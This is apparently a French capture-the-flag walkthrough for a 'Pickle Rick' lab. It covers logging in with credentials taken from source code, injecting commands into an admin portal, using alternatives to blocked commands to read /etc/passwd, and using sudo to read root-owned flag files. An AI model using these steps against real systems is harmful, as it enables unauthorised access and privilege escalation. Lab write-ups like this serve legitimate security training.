 ##### Exploitation

1. **Accès initial** :
   - Utiliser les identifiants trouvés dans le code source
   - Se connecter à l'interface d'administration

2. **Injection de commandes** :
   - Identifier le champ de commande dans le portail
   - Tester des commandes système basiques :
     ```
     ls
     whoami
     pwd
     ```

3. **Contournement des restrictions** :
   - Si certaines commandes sont bloquées, essayer des alternatives :
     ```
     cat /etc/passwd
     less /etc/passwd
     head /etc/passwd
     ```

4. **Recherche des ingrédients** :
   - Explorer le système de fichiers
   - Examiner les fichiers inhabituels
   - Lire le contenu des fichiers suspects

##### Premier ingrédient

```bash
# Explorer le répertoire courant
ls -la

# Lire le fichier contenant le premier ingrédient
cat Sup3rS3cretPickl3Ingred.txt
```

##### Deuxième ingrédient

```bash
# Explorer le répertoire personnel
ls -la /home/rick

# Lire le fichier contenant le deuxième ingrédient
cat /home/rick/second_ingredients.txt
```

##### Troisième ingrédient

```bash
# Vérifier les privilèges sudo
sudo -l

# Utiliser sudo pour lire le dernier ingrédient
sudo cat /root/3rd.txt
```
